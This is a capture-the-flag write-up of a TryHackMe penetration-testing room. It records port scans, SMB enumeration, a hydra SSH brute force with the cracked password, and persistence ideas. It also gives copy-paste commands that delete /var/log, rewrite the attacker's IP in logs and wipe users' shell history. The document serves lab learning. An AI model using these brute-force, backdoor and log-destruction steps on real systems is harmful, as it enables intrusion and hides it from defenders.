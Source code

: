 
# Basic Penetration Testing

URL: [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt) [Easy]

## PHASE 1: Reconnaissance

Description of the room:

> This is a machine that allows you to practise web app hacking and privilege escalation

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sCV 10.10.196.237 | 2>&1 nmap-10.10.196.237.log`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON

22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7

```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.196.237`

Interesting folders found:

```python
/development          (Status: 301) [Size: 320] [--> http://10.10.196.237/development/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `enum4linux`

Ran the following:

> `enum4linux -a 10.10.196.237 | tee enum4linux.log `

Interesting info found:

```
Sharename       Type      Comment
---------       ----      -------
Anonymous       Disk      
IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)

S-1-22-1-1000 Unix User\kay (Local User)                                                        
S-1-22-1-1001 Unix User\jan (Local User)
```

Also see: [nikto.log](nikto.log)

## PHASE 3: Gaining Access & Exploitation

### Unprivileged Access

Ran the following:

> `hydra  -l jan -P /usr/share/wordlists/rockyou.txt  10.10.196.237 ssh`

interesting info found: 

[22][ssh] host: 10.10.196.237   login: jan   password: armando



### Privilege Escalation / Privileged Access

TBD

## PHASE 4: Maintaining Access & Persistence

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

- Add SSH key to `/root/.ssh/authorized_keys`
- Create a privileged account that wouldn’t draw attention (ex: `operations`) or an unprivileged account and give it `sudo` access via group or directly in the `/etc/sudoers` file.
- Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test/CTF machine, so this is out of scope. However, in a Red Team scenario, we could:

### Delete Logs

Delete relevant logs from `/var/log/` - although that might draw attention.

```bash
rm -Rf /var/log/*
```

### Replace our IP

Search and replace our IP address in all logs.

#### OPTION 1: Simple

The simplest way is via something like:

```bash
find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;
```

This searches for all files under `/var/log/` and for each file found, searches for `10.10.2.14` (replace this with your IP) and and replace anywhere that is found with `127.0.0.1`.

#### OPTION 2: Complex

You could come up with your own scheme. For example, you could generate a random IP address with:

```bash
awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'
```

I'd like this to use a new, unique, random IP address for every instance found, but `sed` doesn't support command injection in the search/replace operation. However, you could generate a random IP address to a variable and use that for this search and replace, like below. Note that the `2> /dev/null` hides any error messages of accessing files.

##### As separate statements

In case you want to work out each individual piece of this, here they are as separate statements:

```bash
# MY IP address that I want to scrub.
srcip="22.164.233.238"

# Generate a new, unique, random IP address
rndip=`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`

# Find all files and replace any place that you see my IP, with the random one.
find /var/log -name "*" -exec sed -i "s/$srcip/$rndip/g" {} \; 2> /dev/null
```

##### As one ugly command

This is something you could copy/paste, and just change your IP address.

Basically, just set your `srcip` to your workstations' IP first, and MAKE SURE to run this with a space prefixed, so this command doesn't get written to the shell's history files (e.g. `~/.bash_history`, `~/.zsh_history`, etc.)

```bash
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
```

or optionally, start a new shell, turn off command history, AND start the command with a space prefixed (which also should not add the command to the shell history), then exit out of that separate process:

```bash
bash
unset HISTFILE
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
exit
```

The key idea here is that hiding your address from the logs would be pointless if the *command* for hiding your address from the logs were in a log some place!

### Wipe shell history

For any accounts that we used, if we don't mind that this will destroy valid entries of the user too (and give them an indication their account was compromised), run a comand like this with `tee` writing out nothing/null to multiple files at once:

```bash
cat /dev/null | tee /root/.bash_history /home/kathy/.bash_history /home/sam/.bash_history
```

## Summary

Completed: [<kbd>CTRL</kbd>+<kbd>SHFT</kbd>+<kbd>I</kbd> (requires `jsynowiec.vscode-insertdatestring` VS Code Extension)]
